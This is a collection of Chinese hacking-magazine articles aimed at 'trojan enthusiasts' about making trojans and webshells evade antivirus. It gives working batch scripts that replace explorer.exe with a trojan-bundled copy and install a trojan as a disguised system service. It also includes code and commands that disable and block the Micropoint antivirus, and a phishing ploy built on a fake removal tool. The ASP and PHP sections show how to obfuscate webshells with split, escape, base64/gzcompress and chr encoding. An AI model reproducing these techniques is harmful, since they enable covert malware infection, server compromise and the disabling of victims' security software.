首先讲一下常用的免杀套路。在免杀开始之前，我们要明确免杀的目的——让木马文件躲过大部分杀毒软件的查杀，也就是木马的大范围免杀。既然是大范围免杀，加花处理就是最好的选择了。加花可分为普通加花、去头加花、加多花和综合加花四大类。一般用加多花方式进行处理，然后把这个加过多花的木马程序用 MASKPE2.0 这类的工具进行处理。用这个工具时，注意一定要用参数“TYPE 3”，因为这样处理后的木马一般可以过内存查杀了。这个 MASKPE 真是个好工具，是免杀必备的工具哉。用 MASKPE 处理后就可以用壳对木马进行处理了。壳大致可分为压缩壳、加密壳以及加密压缩壳 3 种，我比较推荐用压缩壳对木马进行处理，比如北斗壳 V3.7、ASPACK 2.12。加过壳后再看看是否实现了大范围免杀；如果木马已经大范围免杀了，只是针对某个常用的杀毒软件不免杀，那直接带壳查找该杀毒软件对该木马的文件特征码，然后直接修改特征码即可（大多数情况下，带壳查文件特征码更容易）。

### 经典黑客攻防

栏目编辑：蝴蝶 butterfly@hacker.com.cn

（上半页正文，双栏排版，讨论木马免杀、加壳、加花、压缩壳与卡巴斯基查杀相关经验）


图6

- 适合读者：木马爱好者
- 前置知识：无

### 让二代远控绕过新一代主动防御


文/图：天使的眼泪

（下半页正文，双栏排版，介绍主动防御与启发式杀毒原理，以及二代远控绕过思路）

卡巴斯基与瑞星。

我们先把杀软的启发式杀毒功能关闭，用资源查看器修改关键资源名，再改文件特征码和内存特征码（最好先用 ImportREC 重建输入表），免杀后再把启发式杀毒打开，会发现杀软照杀不误。

上面说了，木马的入口点在最后一节，所以我们可以通过增加一节来躲过查杀，此时我们要用到 ZeroADD 这款加区块的工具。先点击“Pick a file”选择木马文件，接着在“enter a name for the new section”选项中设置区块名（名字随便，但只能是英文），在“enter of bytes to add”选项中填写节数，最后点“add new section”就 OK 了。经过此步骤后，有些杀软已经不杀了。好，我们再接再厉。再把入口点上的“PUSH”改为“POP”，接着用捆扎压缩 2.8 改壳头。将以下代码：

```
00401000 push 文件名.004CD1FD
00401005 call 文件名.0040100B
0040100A retn
0040100B retn
```

修改为：

```
00401000 call 文件名.004CD1FD
00401005 push 文件名.0040100B
0040100A retn
0040100B retn
```

改完之后再加比斗 3.6，并改壳头。

```
sub ebp,7  改成：add ebp,-7
add dword ptr ss:[ebp-130],edx  改成：adc dword ptr ss:[ebp-130],edx
add dword ptr ds:[esi],edx  改成：adc dword ptr ds:[esi],edx
```

之后用 WinRAR 生成自解压包（隐藏模式），然后再用牧马游民的 WinRAR 自解压免杀包免杀，这样就可以过大多数杀软了。

下面我们再说说主动。三代以后的远控都能与杀软同时启动，所以只要能先于杀软启动，就能躲过主动。那怎样才能先于杀软启动呢？只要把自己做成一个系统服务就行了。我们先写一个 inf 文件，代码如下。

```
[Version]
Signature="$WINDOWS NT$"
[DefaultInstall.Services]
AddService=inetsvr,,My_AddService_Name
```

```
[My_AddService_Name]
DisplayName=Windows Internet Service
Description=提供对 Internet 信息服务管理的支持。
ServiceType=0x10
StartType=2
ErrorControl=0
ServiceBinary=%11%\inetsvr.exe
```

将其保存为 inetsvr.inf，然后运行命令“rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 路径\inetsvr.inf”，用于增加一个名为 inetsvr 的服务（是不是很像系统自带的服务？）。以上代码中的服务程序的可能位置（也就是木马的位置）包括：“%11%”表示 system32 目录，“%10%”表示系统目录（WINNT 或 Windows），“%12%”为驱动目录 system32\drivers，其他值大家自行参考 DDK。当然，我们也可以不使用变量，直接使用全路径。

如果要做到无服务、无驱动、无启动项，也有一种办法，就是用捆绑了木马的 Explorer 替换原 Explorer。首先配置一个无服务不插进程的木马，再找一个免杀的捆绑器（用 WinRAR 自解压），把木马和 explorer.exe 进行捆绑，改名为 explorerx.exe，最后运行下面这段批处理，木马就能成功上线了！

```
taskkill /f /im explorer.exe
// 结束 explorer 进程
del /f /q /s explorer.exe
del /q /f /s "C:\Documents and Settings\All Users\Documents\explorer.exe"
// 貌似需要删除，有待验证
del /q /f /s C:\WINDOWS\Prefetch\*.pf
copy /y explorerx.exe explorer.exe
// 这里用 ren 命令也行
start explorer.exe
// 当运行它时，其实捆绑的木马也运行了
del /f /q /s xxxxxxxx.vbs
del /q /f /s explorerx.exe
del /f /q /s xxx.bat
```

另外，explorer.exe 如果直接捆绑，有可能运行时只出现资源管理器窗口而没有任务栏。我的解决办法是对 explorer.exe 用自带的 iexpress 进行自解压缩，由于是系统自带的程序调用 explorer，一切就会正常了！

以上这两种方法都可以绕开主动，与杀软一同启动，但只能在肉鸡上线后操作，并且最好是捆绑一个关瑞星、改时间的程序会更保险一些。

本文仅是给大家提供一个思路，还有很多需要完善改进的地方。

### 实战突破微点主动防御

- 适合读者：木马爱好者
- 前置知识：无

文/图 sec


最近微点主动防御非常火，各大论坛都有关于微点的讨论。下载安装了测试一下，果不其然，我的木马都被杀了。看来还真不简单啊。于是我详细地研究了一下，终于发现了突破微点主动防御的办法。

和卡巴斯基的主动防御不同，微点更加偏重的是“行为查杀”，也就是说一个程序有了什么样的行为之后才会被识别为木马。

基于此，突破微点主动防御的一种办法就是木马运行之后反过来检测，如果发现所运行的环境中有微点主动防御存在，那么就不去做那些触发微点行为检测提示的行为。这样的实现是比较简单的，例如遍历所有进程，如果发现同时存在映像名称是 MPSVC.exe、MPSVC1.exe 和 MPSVC2.exe 的进程，就认为已安装了微点，这个时候就乖乖地不去做那些会被检测到的事情；如果没有发现这些进程，那么就释放我们的木马并运行，这样木马程序就不会那么轻易地被发现了。

但是，对于微点主动防御，难道我们就只能这样一味“退让”吗？不，现在就和我一起用批处理和 WinRAR 捆绑来打造强行突破微点主动防御的黑防灰鸽子吧。

首先看一下系统进程，如图1所示；再看右下角的任务栏，微点处于启动状态，如图2所示。现在请出我们今天的主角 knlps.exe，其大小只有 8KB，超级 mini，运行的时候它会释放一个驱动程序。

下面开始打造我们的批处理，用 knlps.exe 杀进程的时候需要知道进程的 PID 值，具体我就不多说了，可以看一下随文提供的批处理代码。我们用批处理调用 knlps.exe 杀掉 MPSVC.exe、MPSVC1.exe 和 MPSVC2.exe 这三个进程，Mpmon.exe 这个进程不杀掉也没有关系，这样在系统的任务栏还会显示微点的启动图标时，对方不会发现微点已经被我们杀得不再能监控了。呵呵，现在可爱的黑防灰鸽子就可以上线了。

也许有的读者会问，系统重启之后呢？重启之后被杀掉的微点进程会重新建立，灰鸽子运行的时候还是会提示删除的，怎么办呢？那我们就把微点彻底地“废掉”吧，很简单，杀完进程之后，删掉微点的可执行程序即可，这样即使是重启之后，我们的木马也不会被删掉了。重新启动后，打开系统进程看看，微点已经无法运行了，如图3所示；再看下右下角的任务栏，微点主动防御已经无法启动，


- 适合读者：木马爱好者
- 前置知识：无

### Split 函数虽变化，轻松免杀 ASP 木马

文/图 hack214


现在找个免杀的 ASP 木马还真不容易，在网上找了半个多小时，没有一个免杀的，全部倒到了卡巴斯基的脚下！就小马来说，火狐内部免杀 ASP 小马还是很不错的，目前基本上还能免杀，我一般上传小马时都用这个。针对软件的免杀方法有很多，如修改特征码、去头加花等，但是针对 ASP 木马的免杀方法不是很多，一般就是 VBScript 加密，这个方法放在以前还可以，现在则不行了，杀毒软件会自动解密文件后再查杀，所以 ASP 木马在不断更新的杀毒软件面前越来越没有立足之地了，不过只要我们认真思考，免杀的方法总是有的。

我发表在 2008 年 1 期杂志上的那篇《利用 Session 验证作后门》，就是利用 ASP 自身的正常身份验证实现的。事实上，程序本身的一个正常函数或调用都可能为我们所利用，这都有待于我们去发掘。今天，我们的 ASP 木马的免杀就要用到 ASP 编程的一个函数了，也就是 Split 函数。

#### 了解 Split 函数

提到这个函数，懂点 ASP 或经常搞脚本的应该使用过或与这个函数有过接触吧？我们先来了解一下它的具体应用。Split 函数的应用很简单，就是把一串字符串以某个特定的字符为标记，把字符串分割成数组。下面来看一下它的简单应用。


图3

如图4所示。这样，我们就突破了微点的主动防御了。


图4

```asp
<% dim username
   dim err
   err=false
   username=lcase(trim(request("username")))
   yan="select|update|/and|{|)|insert|delete|exec"
   shuzhu=split(yan,"|")
   '把字符串 yan 以“|”符号为标记分割成数组 shuzhu
   for i=0 to ubound(shuzhu)
      '遍历数组检查 username 中的危险字符
      if instr(username,shuzhu(i))<>0 then
         err=true   '有危险字符时 err=true
      end if
   next
   if err=true Then   '弹出警告对话框
      response.write("<script language=javascript>alert('包含有非法字符, 请不要尝试对本网站的注入');</script>")
      response.end()
   end if
%>
```

这段代码用到了 Split 函数，就是把字符串转换成数组这个功能。上面的“shuzhu=split(yan,'|')”就是通过符号“|”把字符串 yan 分割成数组。Split 的应用很多，一般网站在检查上传的文件扩展名时会用到，在防止网站注入时也会用到，比如上面那段代码就是防注入的。好了，现在我们了解了 Split 的作用，下面就考虑怎么做免杀吧！

#### 免杀思路

首先看一下杀毒软件是怎么杀掉我们的 ASP 木马的。杀毒软件在扫描 ASP 文件时会检查某些特征字符，如 wscript.shell、shell.application、scripting.FileSystemObject 等关键字符串，或者一些其他长一点的字符。如果文件包含这些特征码的话，就会报警，所以在做免杀时一定不能包含这些字符。但是 ASP 木马在功能实现上需要这些组件，不然就不能实现上传和运行 CMD 等重要的功能了，我们只能通过某种方式把这些字符隐藏或加密，这样杀毒软件就检测不到了，从而实现文件的免杀。像 VBScript 加密就是通过加密达到免杀的。还有一个思路，就是在特征码的中间加入某个特殊字符，如 wscri@pt.shell，这样杀毒软件也检测不出来。可能有人会问，这样程序就无法正常运行了，的确是这样的，要是不做任何处理，程序的确无法正常运行，但是在程序实际运行时，我们可以通过某种方法把原来的分割后的特征码再组合到一起，这样就万无一失了。我们这次免杀就要用到这种方法，也就是利用 Split 函数实现。

知道了大体的思路后，我们先来做一个小演示，先在有特征码的地方插入一个特殊字符，如“@”，假设特征码是“response”，看下面的一段代码。

```vb
<% dim a
 a="res@ponse.write(\"asdas\")"
 '把 @ 插入到 response 中间
 shuzhu=split(a,"@")      '通过 split 把 a 分割成数组
 for i=0 to ubound(shuzhu)
 '通过 for 循环把 @ 过滤掉
  temp=temp+shuzhu(i)
 next
 execute(temp)   '执行
%>
```

上面的代码很简单，轻松地把通过“@”隔开的代码又重新组合到了一起，并通过 execute 执行了代码，执行效果如图1所示。


看起来程序完美运行了，下面简单分析一下原理！我们通过“@”把字符分成 2 段，假设为 A 和 B，然后通过 Split 函数把 A 和 B 存入数组，注意此时“@”并没有存入数组！for 循环的作用是实现 A+B，即原来的字符串。上面的代码经过 for 循环后 temp=response.write("asdas")，然后由 execute 执行这句。好了！废话少说，下面就实战一下，用这种方法免杀一个未加密的小马。

#### 制作免杀小马

在制作之前，首先应该考虑小马的编码方式，因为要把一个很长的字符串放到两个双引号里，这样很容易引起各种各样的问题，因为小马本身有很多空格和大量的双引号，从而会引起程序无法判断字符串的结尾，一般会出现如下错误提示：

> 错误类型：  
> Microsoft VBScript 编译器错误 (0x800A0409)  
> 未结束的字符串常量

所以我们要对小马进行编码，最好不要包括双引号和空格。在这我选择了 escape 加密，因为 escape 加密正好能解决我们的问题，它可以很好地把双引号和空格进行编码。我们在进行跨站挂马时，通常也要用到 escape 加密，这样不至于让人一看网址就知道被挂马了。好了，说了这么多，下面先看一下要免杀的小马代码。

```html
<html>
<body>
<form method=post>
<br><font color=red>小马路径：</font><%=server.mappath(request.servervariables("script_name"))%></br>
```

上传路径: `<input type=text name=syfdpath size=67>`

`<br><textarea name=cyfddata cols=80 rows=10 width=32></textarea></br>`

`<br><font color=red><input type=submit value="提交"></font></br>`

`</form>`
`</body>`
`</html>`

```asp
<%
dim objFSO,fdata,objCountFile
on error resume next
Set objFSO = Server.CreateObject("Scripting.FileSystemObject")
if Trim(request("syfdpath"))<>"" then
  fdata = request("cyfddata")
  Set objCountFile=objFSO.CreateTextFile(request("syfdpath"),True)
  objCountFile.Write fdata
  if err=0 then response.write "<font color=red>save Success!</font>" else response.write "save unsuccess"
  end if
  err.clear
  objCountFile.Close
  Set objCountFile=Nothing
  Set objFSO = Nothing
%>
```

```asp
objCountFile.Write fdata
if err=0 then response.write "<font color=red>save Success!</font>" else response.write "save unsuccess"
end if
err.clear
objCountFile.Close
Set objCountFile=Nothing
Set objFSO = Nothing
```

这段代码用“@@@”来分割特征码，考虑到程序中可能本身就有“@”字符，避免被过滤掉，用“@@@”就可以了。下面是我们免杀后的代码。

```asp
<html>
<body>
<form method=post>
<br><font color=red>小马路径:</font><%=server.mappath(request.servervariables("script_name"))%></br>

上传路径: <input type=text name=syfdpath size=67>

<br><textarea name=cyfddata cols=80 rows=10 width=32></textarea></br>

<br><font color=red><input type=submit value="提交"></font></br>
</form>
</body>
</html>

<%
dim a,b,temp,c
a="...（后续为URL编码与@@@分割的脚本内容）..."
b=replace(a,"@@@","兔")
c=split(b,"兔")
for i=0 to ubound(c)
temp=temp+c(i)
next
execute(unescape(temp))
%>
```

注意最前面的HTML代码不需要加密，若是加密了程序将无法执行，因为execute不执行HTML代码。还有就是加密前把“<%”和“%>”去掉，不然也无法执行，会出现如下错误提示。

> 错误类型：  
> Microsoft VBScript 编译器错误 (0x800A0400)  
> 缺少语句

上面的几点搞清楚了，免杀时就不会出错了。先把你认为是特征码的地方加入特殊字符，我认为用字符“@”还是挺方便的，“@”通过escape编码后没有变化，可以很好地为我们服务，不然加密后分割字符也变化了，就一点效果都没有了。下面是我用“@”分割后要加密的代码。

```asp
dim objFSO,fdata,objCountFile
on error resume next
Set objFSO = Server.Create@@@Object("Scrip@@@ting.FileSystemObject")
if Trim(request("syfdpath"))<>"" then
  fdata = request("cyfddata")
  Set objCountFile=objFSO.Create@@@TextFile(request("syfdpath"),True)
```

执行效果如图2所示，经过测试，小马可以正常运行，并且上传文件成功，这方面没有问题了。再看一下是否免杀，激动人心的时刻到了，图3是瑞星2008的查杀结果，图4是卡巴斯基的查杀结果，看来我们的小马免杀很成功。


#### 另辟蹊径

不知道你有没有注意到，我们在一定程度上把免杀复杂化了，虽然本文是讲Split免杀的应用，其实不用Split照样可以达到同样的免杀效果，而且还非常简单。我们把上面的免杀代码修改成下面的形式。

```asp
<html>
……前面代码不变……
b=replace(a,"@@@","")
'修改这里的代码，把@@@过滤为空
execute(unescape(b))
%>
'执行过滤后的代码
```

这段代码比上面的简单多了，不需要Split函数，并且免杀的效果是相同的，文件也可以正常执行。在免杀的时候，大家可以根据自己的实际情况选择哪种方式免杀。ASP大马的免杀与此类似，我就不多讲了，注意一定要用未加密的ASP木马进行免杀。

目前网上免杀ASP大马的方法与我们的模式也差不多，下面是我截取的一段代码。

```asp
……
execute(UnEncode(hu));
'hu是经过处理的ASP木马代码，UnEncode(hu)还原木马代码
function UnEncode(cc)
for i = 1 to len(cc)
'同样通过过滤关键字“琳”来还原代码
if mid(cc,i,1)<>"琳" then
temp = Mid(cc, i, 1) + temp
else
temp=vbcrlf&temp
end if
next
UnEncode=temp
end function
%>
```

通过这段代码，我们可以看到现在流行的免杀方式，不过现在这种木马已经不再免杀了，杀毒软件已经注意到了。不过我们的方法与这种方法还是有很大区别的，大家可以对比一下。了解了原理后，相信大家一定也能做出属于自己的免杀木马。

#### 总结

事实上免杀的方法很多，有时多去思考一下就会发现许多可以利用的地方，希望本文能给大家一点灵感，启发大家的免杀思路，权当是抛砖引玉吧！欢迎到《黑客防线》论坛和我交流，我的ID是hack214。最后祝《黑客防线》越办越好^_^。

> 学习黑客技术就像武术的招数，其关键是心法。只有灵活的思路和变通的方法，才会所向披靡。用最简单的方法实现最佳效果，是懒人的终极奥义。

### “拿来主义”对抗微点主动防御

文／图 046569@[8k7]

微点主动防御是东方微点公司拥有全部自有知识产权的反病毒软件。个人认为其主动防御功能在杀软中处于领先地位，类似一个预置了诸多ACL的HIPS。主动防御技术抛弃了传统特征码扫描，对于免杀是一大挑战，因此论坛上关于过微点的讨论非常热烈，本着“在攻与防的对立统一中寻求突破”的理念，我们在此讨论一下绕过微点的可能性及方法。

| 索引 | API | 地址1 | 地址2 |
|---|---|---|---|
| 0x11 | NtAllocateVirtualM... | 0x805A858E | 0xBA8FA45C |
| ... | ... | ... | ... |
| 0x112 | NtWriteFile | 0x3057CCF6 | 0xBA90B840 |

图1

## 第一式、侦测敌情

《孙子兵法》有云：“知彼知己，百战不殆”。在对抗之前，我们有必要搜集一些微点的信息。

微点分为测试版和预升级版，其中测试版是对外公开的试用版本；预升级版优先升级，也就是最新版本。因此，我们测试需要分别对待，两者有很多不同。下文如未特别说明，均指测试版，预升级版额外说明，下同。

使用Wsyscheck进行侦测，发现微点hook了SSDT，如图1所示。貌似这一招数已经是杀软必备了。但如果细心点的话，会发现微点可能是出于减少系统资源的考虑，SSDT被修改后，过3～5秒再自动恢复（这是让我难以理解的第一个地方，在预升级版里会马上恢复）。通过进程管理器可以关闭微点的4个进程MPMON、MPSVC、MPSVC1和MPSVC2，但其会自动复活，多关几次微点就会退出，尤其是关闭MPSVC2的时候，退出速度极快（匪夷所思之第二处，难道是照顾玩黑的朋友，担心我们不会使用可信程序列表？又或者是认为自己不是流氓软件，所以可以退出？）。

至此简单踩点结束，这些信息已经足够了。下面我们以时间为分界点，分为微点安装前和安装后来叙述。

## 第二式、先发制人

《汉书·项籍传》有云：“先发制人，后发制于人。”理想情况是，对方没有安装微点，这时我们应该防止它安装。安装文件我们一般可以认为是读写注册表+复制文件的过程，让其中的任何一项失败就会导致安装失败。这期间可能出现的情况有管理员不允许安装、没有权限，或者文件复制失败。下面我们来构造这两种情况。

第一种很容易让人想到使用映像劫持，构造一个注册表文件，如图2所示，然后用reg import导入，这样在启动文件的时候就会找不到文件。将其用WinRAR打包成自解压文件，再用VBS无窗口调用就可以很容易实现。大家都很熟悉了，在此不再赘述。


第二种我们就要好好想想了，什么情况下文件会创建失败呢？第一种当然还是没有权限，我们可以调用cacls来控制某个目录的权限，但这种方法还是有问题。如果对方是FAT32格式呢？就算你可以禁止，那么禁止哪个目录比较好呢？我们当然可以禁止drivers目录，但是会导致其他需要安装驱动的程序也无法使用，精确性太低。这时我们再回忆一下，在早期对抗auto类病毒的时候，我们使用过一种方法，就是在各个盘符的根目录下创建Autorun.inf文件夹，这会使auto病毒在复制文件的时候因为文件同名而创建失败。同理我们可以用这个办法来对抗微点。文件夹的名字当然要用微点的驱动名，这是因为可以用环境变量“%windir%”来取得系统实际路径，不需要了解对方以后把微点装到哪，我们仅仅需要在“%windir%\system32\drivers”下创建名为“mp110000.sys”的文件夹就可以了。为了防止被对方轻易删除，再利用一个小bug，在DOS下运行命令“md %windir%\system32\drivers\mp110000.sys\1..\”会建立一个“1 ”的文件夹，并且无法访问及删除，最后别忘了为“mp110000.sys”文件夹增加“只读、系统、隐藏、存档”属性（微点：大哭ing）。这样操作后，完整的命令应该如下：

```bat
md %windir%\system32\drivers\mp110000.sys\
md %windir%\system32\drivers\mp110000.sys\1..\
attrib +r +a +s +h %windir%\system32\drivers\mp110000.sys\
md %windir%\system32\drivers\mp110001.sys\
md %windir%\system32\drivers\mp110001.sys\1..\
attrib +r +a +s +h %windir%\system32\drivers\mp110001.sys\
```

为了防止失败，我建立了两个都和微点驱动同名的文件夹，运行微点安装程序的时候会提示安装失败，如图3所示。仔细观察，可以注意到正是进行到拷贝驱动的时候失败的。如此一来，我们就取得了第一阶段的胜利！是不是很简单呢？


## 第三式，分秒必争

高手对决，生死胜负往往在一刹那间。之前我们了解到微点恢复SSDT不是实时的，那几秒的延迟处理就是我们决胜的关键！首先我们要恢复SSDT，然后直接调用taskkill结束进程。可惜恢复SSDT不能用批处理实现，在网上Google下，很容易找到topmint写的程序，运行下看看，竟然有使用界面，还得点“操作->刷新SDT”，这不符合我们的要求。我们对其进行简单改造：一是把建立并显示窗口的语句注释掉，二是复制恢复SSDT的代码到程序初始化部分，如图4、图5所示。

```c
//ShowWindow(hWinMain,SW_SHOWNORMAL);
UpdateWindow(hWinMain);
Rest();
//消息循环
```

```c
void Rest()
{
    DWORD *address1=new DWORD[dwServices];
    for (int i=0;i<dwServices;i++)
    {
        address1[i]=ssdt_list[i].address1;
    }
    MEMORY_CHUNKS QueryBuff;
    QueryBuff.Address=dwKiServiceTable+dwKernelBase;
    QueryBuff.Data=address1;
    QueryBuff.Length=dwServices*sizeof(DWORD);
    DWORD ReturnLength;
    ZwSystemDebugControl(
        SysDbgWriteVirtualMemory,
        &QueryBuff,
        sizeof(MEMORY_CHUNKS),
        NULL,
        0,
        &ReturnLength
    );
}
```

现在编译下运行看看，嘿嘿，效果还不错。恢复了它，我们就可以“为所欲为”了。首先杀掉微点进程（要循环几次，防止失败），然后删除微点的服务。此处需要注意，微点的服务名是MPSVCService，而不是MPSVC Service，如图6所示，一开始我就没注意这点。最后删除微点的驱动即可。嗯，清理得很干净吧？装得上，完美拆卸了。


图6

在实际操作时，我们还需要注意两点：一是SSDT可能恢复失败，原因在代码的注释中有，想要获得更好的效果还是要编写驱动。如果自己演示的时候失败了，直接用Wsyscheck的恢复SSDT功能，然后再点击演示文件。二是“分秒必争”里的招数应该在“先发制人”之前，原因不用我说了吧？你不知道？自己好好想想哦！再不明白就把随文提供的演示程序前后颠倒执行看看！学技术一定要多动手，这样才会有所提高的。

#### 第四式：以静制动

如果问你现在危害最大的攻击方式是什么？你一定会说是钓鱼式攻击，或者叫社会工程学。我们经常能见到各大论坛总有人发布假信息，比如“生活是美好的.ppt”。同理，我们也可以炮制一篇文章，说新出了一种病毒，诱骗别人检查自己的任务管理器中是否有“病毒”的4个进程，并且关掉后会复活，反复关闭就可以成功结束进程，而且目前没有软件可以检测得出来，必须使用我们提供的“专杀工具”进行系统扫描。至于那个专杀工具嘛，你想做成什么就做成什么吧！（微点：我不是要做塞娅！）

#### 第五式：望梅止渴

说来惭愧，这段是已经发现的缺陷，但却没能制作出演示程序，期待高手出现。好久之前，不知道是谁先想到了修改时间触发杀软异常处理流程导致杀软失效的办法。于是我想，微点应该也有这个漏洞。碰巧一天重装微点的时候，突然弹出一个如图7所示的提示。微点是怎么判断出是不是同一台计算机的呢？现在的注册码一般都和硬件有关。可我手里没有多余的硬件，记得之前碰到过修改硬盘传输模式导致注册失败的情况，微点会不会也有呢？于是将IDE转换成AHCI。折腾了N久，Intel说965LT不支持AHCI，除非升级到Vista。让我一通乱改驱动，终于成了。重启后微点的天数变了，如图8所示，版本也发生了变化，同时微点不再启动。


图7


图8

按照我的理解，这要么是和硬盘有关，要么和注册表有关，但跟踪N久无果。不过，不管和哪个有关，这都意味着可以被利用（硬盘的物理序列号也是可以修改的，要是注册表的问题就更好了），这里我只好阿Q一下了。黑防破解高手众多，相信很快就会有突破的。

第二个是预升级版的问题。想到预升级的拦截很BT，如果可以绕过去就好了。思来想去，觉得重启后删除可行。也就是修改boot文件的默认项，然后立即重启进入DOS删除微点并还原boot文件。没想到修改boot的时候还是被拦截了，如图9所示，但自己加载驱动的Wsyscheck自带的重启后删除却可以成功，或许我们也可以模仿下。（我大哭ing，驱动编程好难。）


图9

这里我提供了一个简单免杀的样本，大家可以用于测试，能过微点测试版，但预升级版非常敏感。希望早日看到有大侠可以突破。我们欣喜地看到，微点在病毒的摧残下快速成长，可以作为我们防黑的利器！如果再增加使用类似E盾一类的HIPS的话，电脑的安全系数必将大大提高。

前置知识：PHP  
关键词：免杀、代码加密、代码混淆

## 对PHP免杀的思考


文／图 AOSEMP

随着开源团队的不断壮大，LAMP这一组合越来越受人们的喜爱，因而PHP网站也越来越多，入侵PHP网站也越来越流行，但我们入侵时获得的WebShell，往往又受到杀毒软件的追杀，因此大家都需要一款免杀的PHP马。下面我就谈谈我的一些PHP的免杀方法。

#### 普通方法

网上流传的PHP免杀不多，大多是加密或改特征码之类的，我这里简单介绍一下加密法。众所周知，PHP有强大的函数库，这为PHP免杀大开方便之门，比如base64_decode和base64_encode组合，gzcompress和gzuncompress组合，gzdeflate和gzinflate组合，可以将PHP源码加密或压缩，使杀毒软件无法识别。本文使用的是virustotal.com进行测试（好像会提交样本给杀毒软件公司，慎用）：未加密时如图1所示，大部分杀毒软件都杀了。现在加密一下（本文的phpjiami.php），代码如下。

病毒扫描结果列表（文件：phpspy_2006.php）  
图1

```php
<?php
$tojiami=$_POST['jiami'];
if(get_magic_quotes_gpc())
{
    $tojiami=str_replace('\\\\','\\',$tojiami);
    // PHP的GPC影响
    $tojiami=str_replace("\\\"",'"',$tojiami);
    // 对于像“\"”我总是去不掉，总出错，所以最好关了GPC
}
$havejiami=base64_encode(gzcompress($tojiami));
// base64_encode()函数一般都支持
echo "<?php eval(gzuncompress(base64_decode('$havejiami')));?>";
?>
```

再试一下，如图2所示，32个杀毒软件全部过了，免杀成功。大家可以嵌套使用或多加密几次，效果很好！

#### 代码混淆法

这个方法很有用，也是用PHP的函数str_replace。ASP中有许多介绍，在PHP中也一样有效。关键代码如下。

```php
<?php
$tojiami=$_POST['jiami'];
$havejiami=base64_encode($tojiami);
```

```php
echo "<?php...\$str='{\$havejiami}';\$str=str_replace('****','',\$str);"
// PHP中应用"\\"将"$"转义
echo "eval(base64_decode(\$str));?></textarea></body></html>";
?>
```

```php
//$_POST['cmd'];
@eval($chrs);
// 我用$fun2($chars)总不成功，只好用它了
?>
```

测试一下，如图3所示，同样全部通过了，如果再结合加密方法进行变化，杀毒软件又奈我何？

#### 绝杀招

稍微熟悉一点PHP的，都知道PHP有变量函数支持，我们还可以利用这一点进行免杀。所谓变量函数就是可以用变量调用函数，例如“$z();”PHP会先解释$z，假设为jiemi，那么，它就会调用jiemi()，我们可以这样用。

```php
<?php
$fun1=chr(98).chr(97).chr(115).chr(101).chr(54).chr(52).'_'.chr(100).chr(101);
$fun1.=chr(99).chr(111).chr(100).chr(101);
//base64_decode();
$fun2=chr(101).chr(118).chr(97).chr(108);
//eval();
$chrs=$fun1("cGhwaW5mbygpOw==");
```

我们还可以多加密几次，那么我们的WebShell基本上就没有函数调用了，一堆乱码看杀毒软件怎么识别！具体代码我就不写了，不过据我测试，eval()始终无法用这种方法调用成功，这也是唯一的一点遗憾，不过我想如果用execute()函数的话，应该可以过，因为操作数据库也有它，不好区别！其实我们还有许多方法“击败”杀毒软件，如用正则表达式、人为远程包含漏洞，等等。只要稍动一点脑筋，就可以想出许多的方法。希望我的文章可以给大家一点思路，欢迎赐教，我的论坛ID是aosemp。

前置知识：ASP

关键词：免杀、代码加密、ASCII码

#### 数字化脚本免杀法

文／图 Hack214

最近在网上闲逛，偶然看到一段关于VB加密的文章，虽然只是简单提了一下，但我觉得想法很不错，这招要是用在ASP木马的免杀上就太恰如其分了。正好这段时间正在研究ASP木马的免杀，真是“踏破铁鞋无觅处，得来全不费工夫啊”。人家一定很想知道是什么加密方法吧？事实上说穿了，这个方法也没有什么新意，我们玩脚本的应该都有过亲身体验。当在网站后台插马时，若网站过滤了单引号等，小马就插不进去了，不过这难不倒我们，条条大路通罗马嘛！把一句话改成“execute request(chr(97))”，照样可以插入且运行无误（这里用到了chr()函数，97是a的ASCII码，chr(97)相当于字符“a”）。

现在入侵网站的主要手段还是SQL注入，拿到一个网站首先就会用明小子等注入工具狂注一番，而不会拖着X-scan去扫描端口。有过手工注入的朋友应该对这样的语句很熟悉，如“http://xxxxx//xx.asp?id=1 and (select top 1 asc(mid(password,1,1)) from admin)>数据”，其中用到了asc()函数，功能是把字符转换成ASCII码，这样的好处是我们可以很快定位出字符的大体范围。说了这么多，其实我们的免杀就是ASCII码与字符的转化。虽然没有什么新的创意，但用在ASP木马的免杀上还是绰绰有余的。

我的思路是先把脚本中涉及到的ASP代码全部转化成ASCII码，同时用“.”分开每个字符，如“abc”经过转化后为“97.98.99”，就这么简单，在实际执行时通过解密后再执行。不过，如果要一个一个查ASCII码表来把木马转换成ASCII码，那不累到吐血才怪，所以我写了一个加密函数和一个解密函数。

```vb
Private Function jiami(ByVal asp As String) As String
For i = 1 To Len(asp)
    asp1 = asp1 + Str(Asc(Mid(asp, i, 1))) & "."
Next i
jiami = asp1
End Function
```

这么简单的几行就搞定了，不用我们去查ASCII码表了。不过解密函数要放到免杀的ASP文件中，在ASP木马中被调用。解密函数同样简单，与加密函数相似。

```asp
<%
function jiemi(asp)
mianasp=split(asp,".")
for i=0 to UBound(mianasp)-1
    hao=mianasp(i)
    aspcode=aspcode+chr(hao)
next
jiemi=aspcode
end function
%>
```

在免杀过程中，HTML代码不要动，原样输出就可以了，只加密脚本部分，也就是“<%”和“%>”之间的代码。免杀后的小马代码如下：

```html
<html>
<title>
<head>
数字化免杀小马
</head>
</title>
<body>
<form method=post>
<br><font color=red>小马路径:</font>...
<%=server.mappath(request.servervariables("script_name"))%><br>
上传路径: <input type=text name=syfdpath size=67>
<br><textarea name=cyfddata cols=80 rows=10 width=32></textarea></br>
<br><font color=red><input type=submit value="提交"></font></br>
</form>
</body>
</html>

下面是经过ASCII码转换后的代码
<% asp3="32 100 105 ...（大量数字序列）..." %>
...
execute(jiemi(asp3))  '执行解密后的代码
```

```vb
for i=0 to UBound(mianasp)-1
  hao=mianasp(i)
  aspcode=aspcode+chr(hao) '通过chr()函数还原原来代码
next
jiemi=aspcode
end function
```

上面的代码是不是很有特点呀？不过不知道大家注意到没有，我们说要加密“<%”和“%>”之间的代码，上面明明就有一段没有处理，为什么呢？上面代码中未加密的是“<%=server.mappath(request.servervariables("script_name"))%>”，如果处理的话，那么解密后执行的就是 `execute("=server.mappath(request.servervariables('script_name'))")`，这样不出错才怪。刚开始的时候我就是这样做的，凡是“<%”与“%>”都处理了，但免杀后总是出错，所以像以“<%=”开头的都原样输出。

这种以“<%=”开头的注定只是一个执行语句，不会很长，具体原理可以自己去揣摩一下。大马的免杀和小马的免杀是一样的，免杀后的文件可以正常运行，图1是瑞星2008的免杀结果。

